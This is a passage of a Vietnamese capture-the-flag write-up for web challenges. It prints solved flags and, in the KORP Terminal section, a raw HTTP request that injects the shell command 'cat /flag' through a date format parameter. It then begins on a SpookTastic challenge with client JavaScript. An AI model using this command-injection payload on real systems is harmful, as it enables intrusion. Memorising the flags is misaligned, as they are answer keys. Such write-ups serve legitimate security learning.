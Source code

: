 ```
}
```
- Nó nhận một json "command" và thực hiện post đến api/monitor và quan sát nếu có ``HTB{`` thì win vậy thì ta thử truyền secret vào command thử xem:
- ![image](https://hackmd.io/_uploads/BJx_XOwBC.png)

Flag: `HTB{D3v3l0p3r_t00l5_4r3_b35t__t0015_wh4t_d0_y0u_Th1nk??}`


## KORP Terminal


![image](https://hackmd.io/_uploads/SJYVudDS0.png)

```
GET /?format=%Y-%m-%d';+cat+/flag' HTTP/1.1
Host: 94.237.54.176:46820
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1


```


Flag: `HTB{1t_i5_t1m3_f0r_ult1m4t3_pwn4g3!}`

## SpookTastic

- Phần mô tả cho chúng ta biết rằng chúng ta cần bật một cảnh báo để xác nhận bí mật ẩn giấu.
![image](https://hackmd.io/_uploads/B1WTw7yIC.png)
- Ta quan sát ở phần client chỉ thấy một đoạn js đơn giản:

```

btn.addEventListener("click", e => {
		e.preventDefault();
		fetch("/api/register", {
			method: "POST",
			body: JSON.stringify({
				email: document.getElementById("email").value
			}),
			headers: {
				"Content-Type": "application/json"
			}
		})
			.then(r => r.json())
			.then(r => {
				if (r.success) {
					alert("Thank you for signing up to our newsletter");
				}
			});
	});

	(() => {
		const socket = io();
		socket.on("flag", data => {
			console.log(data.flag);
			alert(data.flag);
		});
	})();
```